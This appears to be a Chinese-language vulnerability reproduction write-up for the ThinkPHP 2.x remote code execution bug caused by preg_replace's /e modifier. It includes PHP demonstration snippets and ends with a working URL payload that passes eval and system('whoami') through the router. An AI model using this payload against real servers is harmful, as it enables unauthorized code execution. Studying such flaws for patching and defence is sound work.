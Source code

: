 ### ThinkPHP2-RCE漏洞复现

**影响版本：PHP 5.2~5.6**

/e 修 正符使 preg_replace() 将 replacement 参数当作 PHP 代码(在适当的逆向引用替换完之后)。提示：要确保 replacement 构成一个合法的 PHP 代码字符串，否则 PHP 会在报告在包含 preg_replace() 的行中出现语法解析错 误。

在ThinkPHP ThinkPHP 2.x版本中，使用preg_replace的/e模式匹配路由：

```php
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
```

导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。

例如：

```php
<?php
$a = "abc";
$b = "aaaachummercaaaa";
echo preg_replace("/c(.+?)c/e",$a,$b);
?>;
```

输出：aaaaabcaaaa;

如果`$a`可控，如下：

```php
<?php
$a = 'print_r("AAA");';
$b = "aaaac123caaaa";
echo preg_replace("/c(.+?)c/e",$a,$b);
?>;
```

输出如下：

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220608091047.png)

由此可见，preg_replace()函数在匹配时，会自动执行replacement。



我们在对代码进行修改

```php
<?php
function test($str){
    return "$str";
}
$a = "test('\1');";
$b = "aaaac${@print_r('AAA')}caaaa";
preg_replace("/c(.+?)c/e",$a,$b);
?>;
```

输出：![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220608091508.png)

通过上图可以看到，如果`$b`可控，匹配到的字符串传递给了test函数,并将返回值给了`$a`，从而控制`$a`。这样就可以通过`preg_replace()`的/e修饰符执行可控参数了。

**然而，/e修饰符在php版本为5.2~5.6时才可使用。**



再回来看ThinkPHP2漏洞的出现点：

ThinkPHP/Lib/Think/Util/Dispatcher.class.php:102

```php
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
            $_GET   =  array_merge($var,$_GET);
```

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220608093526.png)

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220608093659.png)

其中的`$var`为前面定义的一个数组。

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220608094338.png)

将两个匹配到的字符串分别复制给`$var`的key和value，/e修饰符使其能够执行。

`$paths`定义如下：

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220608095140.png)

它的功能是返回URL后面的参数

thinkphp路由的格式是分组/模块/操作名/参数

因此构造payload：

```
?s=/a/b/c/${@eval($_GET[1])}&1=system(%27whoami%27);
```

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220608100320.png)
